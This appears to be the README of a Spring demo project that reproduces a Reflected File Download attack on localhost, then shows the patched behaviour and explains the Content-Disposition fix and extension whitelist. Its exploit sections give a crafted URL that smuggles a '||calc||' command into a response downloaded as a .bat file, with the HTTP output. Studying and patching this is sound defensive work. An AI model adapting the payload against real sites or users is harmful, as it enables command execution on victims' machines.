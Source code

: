 This application demonstrates a https://drive.google.com/file/d/0B0KLoHg_gR_XQnV4RVhlNl96MHM/view[Reflected File Download (RFD) Attack] against a Spring application.

= Running the Exploit

== Starting the RFD exploitable Application
To see the exploit in action run the application using the default Maven profile.
For example, from the command line you can execute one of the following commands:

[NOTE]
====
You will need JDK7+ installed on your machine for this to work.
====

.Running the application on Linux/Mac
[source,bash]
----
$ ./mvnw spring-boot:run
----

.Running the application on Windows
[source,bat]
----
$ .\mvnw.cmd spring-boot:run
----

The application will now be running on port 8080.

== Trying the Exploit

You can now request the URL from IE:

http://localhost:8080/%22%7C%7Ccalc%7C%7C.bat

This will result in the output of:

[source,http]
----
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Date: Fri, 06 Nov 2015 22:05:35 GMT
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked

{"message":"\"||calc||"}
----

and will open the calculator application on windows.

= Running the Patched Application

== Starting the Patched Application
To see the patched in action run the application using the patched Maven profile.
For example, from the command line you can execute one of the following commands:

[NOTE]
====
You will need JDK7+ installed on your machine for this to work.
====

.Running the application on Linux/Mac
[source,bash]
----
$ ./mvnw spring-boot:run -Ppatched
----

.Running the application on Windows
[source,bat]
----
$ .\mvnw.cmd spring-boot:run -Ppatched
----

The application will now be running on port 8080.

== Trying the Exploit

You can now request the URL from IE:

http://localhost:8080/%22%7C%7Ccalc%7C%7C.bat

This will result in the output of:

[source,http]
----
HTTP/1.1 200 OK
Content-Disposition: attachment;filename=f.txt
Content-Type: application/json;charset=UTF-8
Date: Fri, 06 Nov 2015 22:17:45 GMT
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked

{"message":"\"||calc||"}
----

Since the Content-Disposition header is added along with a filename of f.txt the calculator application will not work.

== Developer Frustrations

Practically speaking, we have found always adding the Content-Disposition header is quite disruptive.
This is because developers (and DevOps) often make these API requests in the browser when they are developing/troubleshooting.

If a download is forced it adds quite a bit of extra work (i.e. the file must be opened, viewed, and then deleted).
It is also quite surprising that typing https://example.com/configuration.yml into the browser results in downloading a file named f.txt.
Forcing the download with a constant filename can also add a potential additional step of renaming the files if multiple files need to be viewed at once (i.e. in order to remember which file is which).

You can find some of the feedback we have received in the https://jira.spring.io/issues/?jql=labels%20%3D%20RFD[Spring JIRA]

To alleviate this, Spring does not add the Content-Disposition header if a malicious file extension is not found as a path parameter or a file extension.
For example, requesting the following URL

http://localhost:8080/%22%7C%7Ccalc%7C%7C

will result in the output of:

[source,http]
----
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Date: Fri, 06 Nov 2015 22:17:45 GMT
Server: Apache-Coyote/1.1
Transfer-Encoding: chunked

{"message":"\"||calc||"}
----

Since there is no executable file extension in the URL, the file is not considered executable and the calculator application will not work.

== How the Fix Works

. https://github.com/spring-projects/spring-framework/blob/v4.2.2.RELEASE/spring-webmvc/src/main/java/org/springframework/web/servlet/mvc/method/annotation/AbstractMessageConverterMethodProcessor.java#L324[AbstractMessageConverterMethodProcessor] will find all extensions in the last path segment of the requested URL.
This includes path variables and the suffix of the last path segment.

. If any of the extensions found in step 1 are not in our whitelist, then the Content-Disposition header is added.
Our updated whitelist is planned to include:

"txt", "text", "yml", "properties", "csv", "json", "xml", "atom", "rss", "png", "jpe", "jpeg", "jpg", "gif", "wbmp", "bmp"

We have also observed that there were lots of file extensions mapped to $$image/*$$, $$audio/*$$, $$video/*$$, and $$+xml$$ that are likely to cause similar pain points.
Rather than explicitly listing all of these extensions he thought it might be easier to leverage the mime types that they map to.
For example, Spring would first find all file extensions in the URL (i.e. step 1).
Spring would then compare each file extension against a whitelist of their respected media types.
For example, if the path contained .svf, that maps to a mime type of image/vnd.svf Since the mime type is image we would allow it.

One other mime type that we considered adding was $$text/*$$.
The reason is that we wanted to allow all types of text to be rendered too (i.e. .html).
A concern here is that if a company mapped a .bat, .pl, etc file to text/plain that this would mean the RFD attack would then be allowed.